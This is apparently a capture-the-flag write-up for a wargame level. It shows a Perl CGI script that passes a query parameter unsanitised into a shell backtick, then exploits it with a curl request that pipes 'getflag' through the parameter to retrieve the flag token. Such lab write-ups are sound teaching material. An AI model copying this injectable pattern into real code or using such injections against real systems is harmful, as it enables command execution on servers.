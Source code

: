 level04.pl is a perl cgi script taking one query parameter named x.

Running on 10.12.177.116:4747 by flag04 user 

     1  #!/usr/bin/perl
     2  # localhost:4747
     3  use CGI qw{param};
     4  print "Content-type: text/html\n\n";
     5  sub x {
     6    $y = $_[0];
     7    print `echo $y 2>&1`;
     8  }
     9  x(param("x"));

It execute the the command echo with our parameter 


If we curl into localhost:4747/?x=hello we get hello back

`[~]$ curl http://10.12.177.116:4747/\?x\=hello`
hello
`[~]$`

Now Let's try and inject the getflag command into the x query parameter and see if we can get the flag

`[~]$ curl http://10.12.177.116:4747/\?x\=hello\|getflag`

# Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

`[~]$`